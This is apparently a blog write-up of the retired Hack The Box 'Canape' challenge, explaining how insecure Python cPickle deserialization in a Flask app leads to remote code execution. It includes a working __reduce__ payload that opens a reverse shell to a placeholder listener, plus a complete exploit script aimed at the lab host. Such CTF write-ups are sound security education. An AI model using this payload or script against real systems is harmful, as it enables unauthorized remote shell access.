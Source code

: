 +++ 
draft = false
date = 2018-11-18T16:30:44+01:00
title = "Exploiting Python Pickle"
slug = "Exploiting Python Pickle" 
tags = ["hackthebox","python","python pickle"]
categories = ["hackthebox","python","python pickle"]
thumbnail = "images/pythonpickle.webp"
description = "Exploiting Python Pickle in Hack The Box Canape"
+++

Hack the Box is a known platform containing a set of security challenges and in this instance, we will cover solving of a subsection of the retired 'Canape' box, consisting of a remote code execution by abusing insecure deserialization of Python Pickle.

After enumerating the host, we will come across a snippet of code which will be of interest to us.  Obtaining this snippet is fairly simple and I didn't feel like writing about it, so I won't spoil it for you entirely! There are two parts we are interested in this walkthrough, so lets go step by step.



```python
@app.route("/submit", methods=["GET", "POST"])
def submit():
    error = None
    success = None
    if request.method == "POST":
        try:
            char = request.form["character"]
            quote = request.form["quote"]
            if not char or not quote:
                error = True
            elif not any(c.lower() in char.lower() for c in WHITELIST):
                error = True
            else:
                # TODO - Pickle into dictionary instead, `check` is ready
                p_id = md5(char + quote).hexdigest()
                outfile = open("/tmp/" + p_id + ".p", "wb")
        outfile.write(char + quote)
        outfile.close()
            success = True
        except Exception as ex:
            error = True
    return render_template("submit.html", error=error, success=success)
```
In the snippet above we can see what occurs when we 'submit' a new Simpsons quote to the application.  The server side code will receive two POST parameters from us, one of which will need to be a valid Simpsons character, and the other can be anything we want.  The POST parameters received are the following:

+ 'character' - A valid Simpsons character (from now on Krusty) 
+ 'quote' - This can be anything we want

Below is the vulnerable snippet of code we are going to abuse.

```python
@app.route("/check", methods=["POST"])
    def check():
        path = "/tmp/" + request.form["id"] + ".p"
        data = open(path, "rb").read()
        if "p1" in data:
            item = cPickle.loads(data)
        else:
            item = data
        return "Still reviewing: " + item
```
Here we can observe that the application attempts to deserialize the contents of a file depending on an 'id' POST parameter which we submit to the application.  This file name is easily guessed, as we can see how they save files in our first code snippet:

```python
                p_id = md5(char + quote).hexdigest()
```

The ID we need to submit will need to be a hexadecimal representation of the md5(char + quote), all of which we know.

Thats all fine and dandy for now, but **why should we care?** In this '/check' functionality, we see that the application uses cPickle to deserialize any data that we retrieve from the file we give it.

```python
            item = cPickle.loads(data)
```

This looks interesting, as we control data that the function receives.

Lets lay out the objectives which we want to achieve knowing the above:

1. Submit unsanitised data using the 'quote' POST parameter
2. The application will load this data using cPickle.loads(data)
3. ???
4. Shell 

Python's pickle library helps in serializing data and storage and is vulnerable like most of the serialization libraries.

The pickle library allows arbitrary objects to declare how they should be pickled by defining a __reduce__ method, which should return either a string or a tuple describing how to reconstruct this object on unpacking.

This returned tuple should contain a class to be called, and a tuple of arguments, as such we can craft our payload by defining the following python class (where IP and PORT are our remote listener):

```python
class PickleRce(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.Popen, (('/bin/sh','-c','/usr/bin/python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"IP\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\''),0))
```

We can test that our PickleRce object is constructed correctly (and in a similar way of the challenge server) by pickling it, saving it to a file and then deserialising it.  This can be done as below:
```python
    ## Ported server side deserialization
def deserializePayload(filename):
    data = open(filename, "rb").read()
    if "p1" in data:
        item = cPickle.loads(data)
    else:
        item = data

    return "Still reviewing: " + item

payload = cPickle.dumps(PickleRce())
char = payload + char
text_file = open("output.txt", "w")
text_file.write(char + quote)
text_file.close()
deserializePayload("output.txt")
```

Once we have a functioning payload, we can piece all elements together:

```python
import string
import random
import base64
import cPickle
from hashlib import md5
import requests
import sys

#Set proxies to inspect data we are sending
proxies = {
  'http': 'http://127.0.0.1:8080',
  'https': 'http://127.0.0.1:8080',
}

#Our deserialisation payload
class PickleRce(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.Popen, (('/bin/sh','-c','/usr/bin/python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"IP\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\''),0))

#Characters submitted should be in this whitelist
WHITELIST = [
    "homer",
    "marge",
    "bart",
    "lisa",
    "maggie",
    "moe",
    "carl",
    "krusty"
]

#Submitting our payload, which will then be saved by the server to a file named 'md5(char + quote).hexdigest()'
#This function returns the name of the saved file - p_id
#POST /submit HTTP/1.1
#Host: 10.10.10.70
#character=Homer&quote=test
#
def submit():
    char = "krusty"
    if not any(c.lower() in char.lower() for c in WHITELIST):
        print 'Error'
        exit(1)
    quote = "HellaHello"
    #quote = base64.b64encode(cPickle.dumps(PickleRce()))
    payload = cPickle.dumps(PickleRce())
    char = payload + char
    p_id = md5(char + quote).hexdigest()
    text_file = open("output.txt", "w")
    text_file.write(char + quote)
    text_file.close()
    print '[+] Sending [quote] request'
    r = requests.post("http://10.10.10.70/submit",data = {'character':char,'quote':quote},proxies=proxies)    
    print 'Received response - ' , r.status_code
    print 'p_id of post - ' , p_id
    return p_id

#Make the vulnerable application deserialise our payload contained in p_id.  This will execute on the server the payload we defined in the PickleRce object
def check(p_id):
    print '[+] Sending [check] request'
    r = requests.post("http://10.10.10.70/check",data = {'id':p_id},proxies=proxies)
    print 'Received response - ' , r.status_code
    return r

p_id = submit()
check(p_id)
```
